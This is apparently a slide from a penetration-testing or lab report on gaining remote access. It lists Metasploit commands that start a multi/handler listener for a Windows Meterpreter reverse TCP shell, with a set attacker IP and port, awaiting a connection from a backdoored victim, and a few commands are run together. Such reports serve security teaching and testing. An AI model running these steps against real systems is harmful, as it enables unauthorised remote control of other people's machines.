

Gaining Remote Access
With the backdoor deployed, setting up a listener allowed us to establish a remote Meterpreter session upon victim execution, granting initial system access.
Commands Executed
Exploitation Process
Configured a multi/handler listener in Metasploit.

msfconsoleuse exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcpset
LHOST 192.168.1.101
set LPORT 4444
exploit
Set the payload to match the generated backdoor.
Initiated the listener, awaiting connection from the compromised system.